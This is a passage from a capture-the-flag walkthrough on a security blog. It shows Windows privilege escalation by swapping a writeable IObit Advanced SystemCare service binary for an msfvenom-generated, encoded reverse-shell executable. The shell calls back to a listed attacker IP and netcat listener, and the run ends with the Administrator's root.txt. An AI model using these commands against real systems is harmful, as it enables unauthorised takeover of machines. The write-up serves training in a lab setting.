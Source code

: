 ![](https://blog.razrsec.uk/content/images/2020/05/image-61.png)

Looking at the output there is one particular service where the _CanRestart_ option is set to true:

![](https://blog.razrsec.uk/content/images/2020/05/image-62.png)

With this value set to _true_, we are able to restart this service on the system. The directory to the application is also writeable. This means we can replace the legitimate application with a malicious one and once the service is restarted, our malicious program will run.

_msfvenom_ can be used to generate a reverse shell as a windows executable:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.22.145 LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe
```

![](https://blog.razrsec.uk/content/images/2020/05/image-63.png)

This can then be uploaded to the target machine via the meterpreter shell (exitout of the PowerShell session first via CTRL+C):

```
upload ASCService.exe

```

![](https://blog.razrsec.uk/content/images/2020/05/image-64.png)

Dropping back into a windows shell we can stop the legitimate service running and then replace the application file with the malicious binary:

```
sc stop AdvancedSystemCareService9

copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
```

![](https://blog.razrsec.uk/content/images/2020/05/image-65.png)

Before restarting the service, we need to set up a listener within our local terminal:

```
nc -nlvp 4443
```

![](https://blog.razrsec.uk/content/images/2020/05/image-66.png)

The service can then be restarted within the windows shell:

```
sc start AdvancedSystemCareService9
```

Once the service restarts, a reverse shell will appear within the listener. From here we can switch to the Administrator's Desktop directory and grab the _root.txt_ file:

![](https://blog.razrsec.uk/content/images/2020/05/image-67.png)
